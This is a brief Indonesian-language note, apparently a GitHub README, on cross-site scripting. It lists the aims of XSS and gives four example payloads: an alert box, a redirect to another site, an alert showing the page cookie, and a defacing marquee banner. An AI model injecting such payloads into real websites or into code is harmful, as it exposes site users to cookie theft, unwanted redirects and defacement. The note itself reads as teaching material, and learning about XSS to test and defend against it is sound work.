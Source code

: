 # Tujuan

- Memanfaatkan kelememahan yang ada pada sisi client
- Memasukkan script ke dalam website melalui sebuah browser
- Memasukkan script melalui inputan html

# Contoh Script

- <script language="javascript">window.alert('Funny' I love this site')</script>
- <script>location.href='http://wwww.web-tujuan.com';</script>
- <script>alert(document.cookie)</script>
- <marquee><font color="red" size="7">Kena XSS</font></marquee>
